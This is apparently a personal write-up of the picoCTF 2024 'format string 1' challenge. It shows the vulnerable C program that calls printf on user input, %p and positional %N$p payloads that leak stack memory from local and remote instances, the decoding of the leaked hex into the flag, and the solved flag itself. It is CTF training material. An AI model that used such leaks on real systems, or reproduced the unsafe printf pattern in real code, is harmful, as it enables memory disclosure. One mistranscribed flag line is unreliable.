



### format string 1

Author: syreal
#easy #Binary_exploitation #picoCTF2024 #format_string #browser_web_shell 
#### Description

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu.
Find it, and along the way, maybe you'll find something else of interest! Download the binary [here](https://artifacts.picoctf.net/c_mimas/44/format-string-1). 
Download the source [here](https://artifacts.picoctf.net/c_mimas/44/format-string-1.c). Connect with the challenge instance here: `nc mimas.picoctf.net 55457`

##### Solution
###### code 
```c
#include <stdio.h>
int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}

```

###### output
when you run the code
```css
Give me your order and I'll read it back to you:
hi who are you
Here's your order: hi
Bye!
```
now look at the code  you will see`scanf("%1024s", buf);`, scanf cannot print space and 1024 means it can read up to 1023 characters from the input
```css
Give me your order and I'll read it back to you:
hihowareyou  
Here's your order: hihowareyou
Bye!
```
now lets play around with memory use %p which is pointer address
```css
Give me your order and I'll read it back to you:
%p%p%p%p
Here's your order: 0x5dd9540a5118(nil)0x7d1fc1416a00(nil)
Bye
```
test with number of input
```css
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x5fc29faf2118,(nil),0x7d3804e16a00,(nil),0x5fc2a07c6c80,0x7ffd00000008,0x5fc2a07c5680,0xffffffff,(nil),0x7d3804c07e60,0x3055e4,0x7ffd98d02d80,0x7d3804c1bf7a,0x7d3804eb24d0,0x7ffd98d02ce0,0x756f79206f636970,0x7d006e697720,0x2
Bye!
```
now from cyber chef tool convert from hex 
```css
_Ÿ¯!}8áj_ |l€ý_ |V€ÿÿÿÿ}8À~`0Uäý˜Ð-€}8Á¿z}8ë$Ðý˜Ð,àuoy ocip}niw 
```
in my flag.txt i have written `pico you win`
which look similar `uoy ocip}niw ` 
now remove unnecessary part from cyber chef to get proper output

| input                             | output         |
| --------------------------------- | -------------- |
| 0x756f79206f636970,0x7d006e697720 | uoy ocip}niw  |
| 0x7d006e697720,0x756f79206f636970 | }niw uoy ocip |
now add reverse tool into cyber chef to change the order  `pico you win}` i got my flag string
now test into server
```css
nc mimas.picoctf.net 61174
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x7c29e85c9a00,(nil),0xd87880,0xa347834,0x7ffc53d3a200,0x7c29e83bae60,0x7c29e85df4d0,0x1,0x7ffc53d3a2d0,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531
Bye!
```
cyber chef result
```css
@!|)è\šØx€£GƒüSÓ¢|)è;®`|)è]ôÐüSÓ¢Ð{FTCocip5_14m1n44x4_31y71e_g41f_}8108e
```
do same thing remove extra input from cyber chef

| input                                                                                        | output                                  |
| -------------------------------------------------------------------------------------------- | --------------------------------------- |
| 0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531 | {FTCocip5_14m1n44x4_31y71e_g41f_}8108e1 |
reverse the order into cyber chef `1e8018}_f14g_e17y13_4x44n1m41_5picoCTF{`
now fix the arrangement

| input              | output   |
| ------------------ | -------- |
| 0x7b4654436f636970 | picoCTF{ |
| 0x31655f673431665f | _f14g_e1 |
| 0x3478345f33317937 | 7y13_4x4 |
| 0x355f31346d316e34 | 4n1m41_5 |
| 0x7d383130386531   | 1e8018}  |
picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}
picoCTF{animal_style_axa_flag_e11e80l8}

use two recipe on cyberchef swap endianess and from hex


----
solution 2

```css

┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x7ffeb9b87620,(nil),(nil),(nil),0x400,0x326f6d6564,0x7ffeb9b878f8,0x7f02b314a6c0,0x3,0x7f0200000000,0x7ffeb9b87848,0x2,0x7ffeb9b87850,0x7b4654436f636970
Bye!
```






```css
┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p
Here's your order: 0x7b4654436f636970
Bye!
```

```css
>>> print(struct.pack('<Q', 0x7b4654436f636970).decode(errors='ignore'))
picoCTF{
```

```css
┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%15$p
Here's your order: 0x735f74616d726f66
Bye!   
```

```css
>>> print(struct.pack('<Q', 0x735f74616d726f66).decode(errors='ignore'))
format_s
```

```css
┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%16$p
Here's your order: 0x7d31676e697274
Bye!
```

```css
>>> print(struct.pack('<Q', 0x7d31676e697274).decode(errors='ignore'))
tring1}
```
 so flag is `picoCTF{format_string1}`

or we can do like 
```css
┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ ./format-string-1
Give me your order and I'll read it back to you:
%14$p,%15$p,%16$p
Here's your order: 0x7b4654436f636970,0x735f74616d726f66,0x7d31676e697274
Bye!
```

```css
>>> import struct; print(''.join([struct.pack('<Q', h).decode(errors='ignore') for h in [0x7b4654436f636970,0x735f74616d726f66,0x7d31676e697274]]))
picoCTF{format_string1}
```

on server
```css

┌──(kali㉿kali)-[~/Downloads/format_string1]
└─$ nc mimas.picoctf.net 51544
Give me your order and I'll read it back to you:
%14$p,%15$p,%16$p,%17$p,%18$p
Here's your order: 0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531
Bye!
```

```css
>>> import struct; print(''.join([struct.pack('<Q', h).decode(errors='ignore') for h in [0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531]]))
picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}
```